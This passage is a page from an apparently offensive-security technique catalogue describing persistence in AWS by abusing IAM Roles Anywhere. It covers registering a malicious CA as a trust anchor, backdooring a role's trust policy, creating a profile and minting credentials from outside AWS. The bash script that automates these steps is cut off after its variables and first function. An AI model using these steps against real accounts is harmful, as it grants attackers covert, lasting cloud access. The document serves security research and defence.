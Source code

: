```yaml
---
author_name: Adan Álvarez
title: IAM Roles Anywhere Persistence
description: Abusing IAM Roles Anywhere to obtain persistent AWS access from outside the cloud.
---
```


<div class="grid cards" markdown>

-   :material-account:{ .lg .middle } __Original Research__

    ---

    <aside style="display:flex">
    <p><a href="https://medium.com/@adan.alvarez/how-attackers-can-abuse-iam-roles-anywhere-for-persistent-aws-access-b3ced6935dca">How Attackers Can Abuse IAM Roles Anywhere for Persistent AWS Access</a> by <a href="https://adan.cloud/">Adan Álvarez</a></p><p><img src="/images/researchers/adan_alvarez.jpg" alt="Adan Alvarez" style="width:44px;height:44px;margin:5px;border-radius:100%;max-width:unset"></img></p>
    </aside>

</div>

[IAM Roles Anywhere](https://aws.amazon.com/iam/roles-anywhere/) lets external workloads assume IAM roles using X.509 certificates signed by a registered trust anchor (Certificate Authority). An attacker with sufficient privileges can register a malicious CA, associate it to roles via a profile, and generate on‑demand temporary credentials from outside AWS.

## Overview

1. **Create a Malicious CA and Trust Anchor:** The attacker generates their own CA certificate and private key. They then register this CA as a trust anchor in the victim’s AWS account.
2. **Create or Backdoor an IAM Role:** The attacker either creates a new IAM role or modifies an existing one by updating its trust policy to allow assumptions via the malicious trust anchor.
3. **Create a Profile:** The attacker creates a profile in IAM Roles Anywhere using the CreateProfile API action. The profile specifies which roles can be assumed using the trust anchor.
4. **Obtain Temporary Credentials:** With the trust anchor and profile in place, the attacker uses their malicious CA to sign a client certificate. They then use the aws_signing_helper utility to obtain temporary AWS credentials

## Demonstrating how an attacker could set up IAM Roles Anywhere for persistence easily

The following script automates these steps

```bash
#!/bin/bash

set -e

# Variables
TRUST_ANCHOR_NAME="MyTrustAnchor"
PROFILE_NAME="MyProfile"
ROLE_NAME="RolesAnywhereAssumableRole"
POLICY_NAME="RolesAnywherePolicy"
REGION="us-east-1"
ACCOUNT_ID=$(aws sts get-caller-identity --query Account --output text)
CREDENTIALS_FILE="./aws_credentials.conf"

# Function to check if a trust anchor exists
function get_trust_anchor_arn {
    aws rolesanywhere list-trust-anchors \
        --region $REGION \
        --query "trustAnchors[?name=='$TRUST_ANCHOR_NAME'].trustAnchorArn" \
        --output text
}

# Function to check if a profile exists
function get_profile_arn {
```